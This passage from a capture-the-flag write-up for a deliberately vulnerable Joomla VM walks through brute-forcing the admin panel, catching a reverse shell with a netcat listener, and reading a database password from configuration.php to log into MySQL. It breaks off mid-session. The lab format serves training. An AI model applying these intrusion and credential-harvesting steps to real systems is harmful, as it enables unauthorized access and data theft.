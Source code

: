 Follow my steps now, we will use burp intruder to brute force the admin panel (/administrator).

![](https://i.imgur.com/dL2nk9R.png)

![](https://i.imgur.com/kJ85zeL.png)

![](https://i.imgur.com/Mwg2REX.png)

![](https://i.imgur.com/uvqgcmp.png)

![](https://i.imgur.com/J5TGMPc.png)

Now we can see string `Gotham` has different length : 

![](https://i.imgur.com/BbTAXWW.png)

And we're in! Creds : `joomla:Gotham` follow my steps for reverse shell now :

![](https://i.imgur.com/S9RW221.png)

![](https://i.imgur.com/1Viu62v.png)

![](https://i.imgur.com/Bdlxlai.png)

And we have shell!

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@glasgowsmile:/$ ^Z (CTRL + Z)
[1]+  Stopped                 nc -lvp 6666
$ stty raw -echo
$ fg
www-data@glasgowsmile:/$ 
```

Now privesc it's a bit silly haha. Let's take a look at joomla's configuration file :

```
www-data@glasgowsmile:/var/www/html/joomla$ cat configuration.php 
...data..
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'joomla';
	public $password = 'babyjoker';
```

Let's connect to mysql.

```
www-data@glasgowsmile:/var/www/html/joomla$ mysql -u joomla -p
Enter password: 

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.005 sec)

MariaDB [(none)]> use batjoke;
```